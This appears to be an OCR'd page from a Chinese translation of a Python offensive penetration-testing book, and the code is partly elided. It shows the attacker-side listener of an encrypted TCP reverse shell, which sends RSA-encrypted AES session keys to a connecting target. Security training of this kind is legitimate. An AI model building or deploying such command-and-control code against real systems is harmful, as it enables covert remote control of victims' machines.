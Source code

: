 ```
# Python For Offensive PenTest

# Download Pycrypto for Windows - pycrypto 2.6 for win32 py 2.7
# http://www.voidspace.org.uk/python/modules.shtml#pycrypto

# Download Pycrypto source
# https://pypi.python.org/pypi/pycrypto
# For Kali, after extract the tar file, invoke "python setup.py install"

# Hybrid - Server- TCP Reverse Shell

import socket 
from Crypto.PublicKey import RSA
from Crypto.Cipher import AES
import string
import random

def encrypt_AES_KEY(KEY):

    publickey ="""-----BEGIN PUBLIC KEY-----
...
-----END PUBLIC KEY-----"""

    encryptor = RSA.importKey(publickey)
    encriptedData=encryptor.encrypt(KEY, 0)
    return encriptedData[0]

```

完成 TCP 三次握手后，我们将生成两个随机值，即`key`和`counter`。它们的值是由大写字母、小写字母、数字和特殊字符的组合组成。在进入无限循环之前——该循环将用于传输我们希望执行的命令——我们将使用目标的公钥对这些值进行加密，然后传输：

```
...

def connect():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.bind(("10.10.10.100", 8080)) 
    s.listen(1)                                                        
    print '[+] Listening for incoming TCP connection on port 8080'
    conn, addr = s.accept() 
    print '[+] We got a connection from: ', addr
    global key
    key = ''.join(random.SystemRandom().choice(string.ascii_uppercase + string.ascii_lowercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(32))
    print "Generated AES Key " + str(key)
    conn.send ( encrypt_AES_KEY(key) )
    global counter
    counter = ''.join(random.SystemRandom().choice(string.ascii_uppercase + string.ascii_lowercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(16))
    conn.send ( encrypt_AES_KEY(counter) )
 ...
```
